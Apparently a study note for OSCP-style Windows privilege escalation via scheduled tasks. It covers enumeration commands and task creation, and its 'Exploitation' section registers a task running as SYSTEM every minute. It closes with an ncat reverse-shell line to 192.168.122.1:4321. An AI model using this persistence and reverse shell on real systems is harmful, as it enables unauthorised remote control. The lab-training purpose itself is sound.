

## Enumeration

**List all scheduled tasks**
- PowerShell
```powershell
Get-ScheduledTask
```
- CMD
```cmd
schtasks /query
```

**List Tasks in a Specific Folder**
```powershell
Get-ScheduledTask | Where-Object {$_.TaskPath -eq "\Microsoft\Windows\Shell\"}
```

---

**List tasks with detailed information**
```powershell
Get-ScheduledTask -TaskName "MyTask" | Get-ScheduledTaskInfo
```



In the above example:
```powershell
Get-ScheduledTask -TaskName "CreatedObjectTask" | Get-ScheduledTaskInfo
```

To be more specific we can do the following command:
```powershell
Get-ScheduledTask -TaskPath "\Microsoft\Windows\Shell\" -TaskName "CreatedObjectTask" | Get-ScheduledTaskInfo
```

```powershell
schtasks /query /FO LIST /V
```


```powershell
Get-ScheduledTask -TaskName "XblGameSaveTask" | Format-List *
```

---

**Extract binary path and arguments of services**
```powershell
(Get-ScheduledTask -TaskName "XblGameSaveTask").Actions
```


```powershell
Get-ScheduledTask | ForEach-Object { $_.Actions }
```

---

**Export task configuration as XML**
```powershell
Export-ScheduledTask -TaskName "XblGameSaveTask" -TaskPath "\Microsoft\XblGameSave\"
```

## Creation and Deletion

Simple task that runs when user logins to execute `notepad.exe`
```powershell
$action = New-ScheduledTaskAction -Execute "notepad.exe"
```

```powershell
$trigger = New-ScheduledTaskTrigger -AtLogOn
```

```powershell
Register-ScheduledTask -TaskName "MyTask" -Action $action -Trigger $trigger -User "quickem-h5dsq1v\quickemu"
```
- Try enumerating the new task with the commands we used previously. 
- Could be useful for automation. 

Delete task
```powershell
Unregister-ScheduledTask -TaskName "SimpleTask" -Confirm:$false
```

## Exploitation

Define task config:
```powershell 
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\Users\Quickemu\tasks\test1.ps1"
```

```powershell
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Days 365)
```

```powershell
$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
```

File used: `test1.ps1`
```ps1
mkdir C:\Users\Quickemu\tasks/test
whoami > C:\Users\Quickemu\tasks/test/whoami.txt
```

Register task:
```powershell 
Register-ScheduledTask -TaskName "SimpleTask" -Action $Action -Trigger $Trigger -Principal $Principal
```

 In the definition we see that we're executing the `C:\Users\Quickemu\tasks\test1.ps1` file using `powershell.exe` every minute for an entire year, and the task is executed as the `SYSTEM` account.
```powershell 
Unregister-ScheduledTask -TaskName "SimpleTask" -Confirm:$false
```

Turning our `.ps1` file into a reverse shell:
```ps1
mkdir C:\Users\Quickemu\tasks/test
whoami > C:\Users\Quickemu\tasks/test/whoami.txt
C:\Users\Quickemu\tasks/ncat.exe 192.168.122.1 4321 -e cmd.exe
```

For OSCP look for comments about:
- New-ScheduledTaskPrincipal
- Register-ScheduledTask

Try to understand if a schedule task is going on. Otherwise, focus on easier things to enumerate. 

---
##  References

 Task Scheduler for developers: <https://learn.microsoft.com/it-it/windows/win32/taskschd/task-scheduler-start-page

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-12-16-windows-privesc-scheduled-tasks/content/notes.txt

